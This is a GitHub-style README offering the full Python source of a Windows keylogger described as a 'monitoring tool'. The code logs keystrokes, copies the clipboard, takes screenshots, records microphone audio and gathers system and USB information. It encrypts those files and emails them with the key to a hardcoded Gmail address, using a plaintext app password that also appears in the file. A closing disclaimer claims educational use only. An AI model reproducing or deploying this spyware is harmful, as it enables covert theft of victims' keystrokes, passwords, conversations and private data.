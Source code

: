 # Keylogger with Encryption 

A computer monitoring tool
# Features
* monitors keystrokes
* making screenshots for a certain period
* encrypting files using an encryption key
* send to email.
* audio recording.

# Usage
* Python 3.12.3
* windows 10 11
  
# The most famous libraries
* pynput.keyboard import Key, Listener
* threading

# source code 
from pynput.keyboard import Key, Listener
from cryptography.fernet import Fernet
import socket
import platform
import win32clipboard
import time
from PIL import ImageGrab
from scipy.io.wavfile import write
import sounddevice as sd
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.base import MIMEBase
from email import encoders
from pywinusb import hid
import threading


log_file = "key_log.txt"
system_information = "systeminfo.txt"
clipboard_information = "clipboard.txt"


encrypted_log_file = "e_key_log.txt"
encrypted_system_information = "e_systeminfo.txt"
encrypted_clipboard_information = "e_clipboard.txt"


screenshot_files = ["screenshot1.png", "screenshot2.png", "screenshot3.png"]
audio_file = "audio.wav"


key = Fernet.generate_key()
cipher = Fernet(key)


with open("encryption_key.key", "wb") as key_file:
    key_file.write(key)


sender_email = "na9eraa44@gmail.com"
receiver_email = "na9eraa44@gmail.com"
password = "qsodnppunpngzlyp"

def on_press(key):
    with open(log_file, "a") as f:
        try:
            f.write(str(key.char))
        except AttributeError:
            f.write(f"[{key}]")

def on_release(key):
    if key == Key.esc:
        stop_keylogger()
        return False

def get_system_information():
    with open(system_information, "w") as f:
        hostname = socket.gethostname()
        IPAddr = socket.gethostbyname(hostname)
        try:
            public_ip = get('https://api.ipify.org').text
            f.write(f"Public IP Address: {public_ip}\n")
        except Exception:
            f.write("Couldn't get Public IP Address\n")
        f.write(f"Processor: {platform.processor()}\n")
        f.write(f"System: {platform.system()} {platform.version()}\n")
        f.write(f"Machine: {platform.machine()}\n")
        f.write(f"Hostname: {hostname}\n")
        f.write(f"Private IP Address: {IPAddr}\n")

def copy_clipboard():
    with open(clipboard_information, "w") as f:
        try:
            win32clipboard.OpenClipboard()
            pasted_data = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            f.write("Clipboard Data: \n" + pasted_data + '\n')
        except:
            f.write("Clipboard could not be copied\n")

def take_screenshots():
    for i, file in enumerate(screenshot_files):
        im = ImageGrab.grab()
        im.save(file)
        time.sleep(8)

def record_audio(duration):
    fs = 44100
    seconds = duration
    myrecording = sd.rec(int(seconds * fs), samplerate=fs, channels=2)
    sd.wait()
    write(audio_file, fs, myrecording)

def encrypt_file(input_file, output_file):
    with open(input_file, "rb") as f:
        data = f.read()
    encrypted_data = cipher.encrypt(data)
    with open(output_file, "wb") as f:
        f.write(encrypted_data)

def check_files_and_send_email():
    
    files_to_check = [encrypted_log_file, encrypted_system_information, encrypted_clipboard_information] + screenshot_files + [audio_file, "encryption_key.key"]
    for file in files_to_check:
        try:
            with open(file, "rb") as f:
                pass
        except FileNotFoundError:
            print(f"File not found: {file}")
            return
    
    
    send_email(files_to_check)

def send_email(files_to_attach):

    msg = MIMEMultipart()
    msg['From'] = sender_email
    msg['To'] = receiver_email
    msg['Subject'] = "Encrypted Keylogger Files"
    

    for file in files_to_attach:
        try:
            attachment = open(file, "rb")
            part = MIMEBase('application', 'octet-stream')
            part.set_payload(attachment.read())
            encoders.encode_base64(part)
            part.add_header('Content-Disposition', f"attachment; filename= {file}")
            msg.attach(part)
            attachment.close()
        except Exception as e:
            print(f"Could not attach file {file}: {e}")
    
   
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(sender_email, password)
    server.sendmail(sender_email, receiver_email, msg.as_string())
    server.quit()

def usb_event_handler(event):
    with open("usb_log.txt", "a") as f:
        f.write(f"USB event: {event}\n")

def start_usb_monitoring():
    filter = hid.HidDeviceFilter()
    devices = filter.get_devices()
    for device in devices:
        device.open()
        device.set_raw_data_handler(usb_event_handler)

def stop_keylogger():
   
    get_system_information()
    copy_clipboard()
    take_screenshots()
    record_audio(10)
    encrypt_file(log_file, encrypted_log_file)
    encrypt_file(system_information, encrypted_system_information)
    encrypt_file(clipboard_information, encrypted_clipboard_information)
    check_files_and_send_email()

   
    listener.stop()


listener = Listener(on_press=on_press, on_release=on_release)
listener.start()


start_usb_monitoring()


timer = threading.Timer(300, stop_keylogger)
timer.start()


listener.join()



# Devloper 
* Nader Ameen ALhwamail

# Disclaimer
This tool is intended for educational and ethical use only.....

